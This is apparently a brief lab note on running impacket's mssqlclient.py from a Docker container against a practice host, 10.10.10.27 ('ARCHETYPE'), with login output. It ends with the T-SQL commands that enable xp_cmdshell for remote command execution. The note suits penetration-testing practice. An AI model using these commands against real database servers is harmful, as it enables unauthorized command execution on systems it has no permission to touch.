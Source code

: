 # Using impacket 

Reference: https://resources.infosecinstitute.com/topic/python-for-network-penetration-testing-hacking-windows-domain-controllers-with-impacket-python-tools/

```docker build -t impacket:latest .```
- builds the docker images using the available docker file

```docker images impacket```
- validate if the image was built

```docker run -it impacket```
- spin up a new container and it gives a shell on the container by default.

```/ #```
- On the container shell, we can type any impacket script name

```mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth```
- below is the output
```/opt/venv/lib/python2.7/site-packages/OpenSSL/crypto.py:14: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography import utils, x509
Impacket v0.9.23.dev1+20210315.121412.a16198c - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[-] ERROR(ARCHETYPE): Line 1: Login failed for user 'ARCHETYPE\Guest'.
/ # mssqlclient.py ARCHETYPE\sql_svc@10.10.10.27 -windows-auth
/opt/venv/lib/python2.7/site-packages/OpenSSL/crypto.py:14: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography import utils, x509
Impacket v0.9.23.dev1+20210315.121412.a16198c - Copyright 2020 SecureAuth Corporation

SQL>
```

- In the SQL>, you enter the following commands to enable RCE and xp_cmdshell
```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```




